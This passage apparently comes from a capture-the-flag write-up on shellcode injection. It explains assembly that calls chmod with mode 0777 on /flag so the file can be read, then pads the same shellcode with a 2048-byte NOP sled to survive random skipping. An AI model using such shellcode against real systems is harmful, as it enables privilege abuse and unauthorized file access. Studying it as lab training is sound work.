Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

>
> Here I've used the **chmod** syscall to grant me the permissions to read the **/flag** file:
>
> ```pyt
> %rax	System call		%rdi						%rsi					%rdx
> 90		sys_chmod		const char *filename		mode_t mode
> ```
>
> `0777` is an octal number representing `-rwxrwxrwx` access, which grants full read, write, and execute permissions to everyone (owner, group, and others). The leading 0 in 0777 indicates to the assembler that the number should be interpreted as octal rather than decimal, as it would normally do.
>
> We use `lea rdi, [rip+flag]` and not `mov rdi, flag` because in Position Independent Code, such as what you use in shellcode, you cannot assume that absolute addresses (e.g., the address of flag) are fixed.
>
> - `rip` is the instruction pointer register, and `[rip+flag]` computes the address of the flag label relative to the current rip. The effective address of flag is placed into rdi.
>
> **Alternative:** to avoid this problem, you could also convert the string "/flag" into hex and push it into the stack:
>
> ```assembly
> mov rax, 0x67616c662f /* this corresponds to galf/ because it's in little endian */
> push rax
> 
> /* chmod syscall */
> mov rax, 90 
> mov rdi, rsp /* rsp points to our string saved in the stack */
> mov rsi, 0777
> syscall
> ```

<div alt="page-break" class="page-break"></div>

## Level2

> **From the challenge description:**
> This challenge will randomly skip up to 0x800 bytes in your shellcode. You better adapt to that! One way to evade this is to have your shellcode start with a long set of single-byte instructions that do nothing, such as `nop`, before the actual functionality of your code begins. When control flow hits any of these instructions, they will all harmlessly execute and then your real shellcode will run. This concept is called a `nop sled`.

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = "nop\n" * 2048 # 0x800 = 2048 in decimal
shellcode += '''
    mov rax, 90 
    lea rdi, [rip+flag]
    mov rsi, 0777
    syscall

    mov rax, 60
    syscall

flag:
    .asciz "/flag" 
'''
```
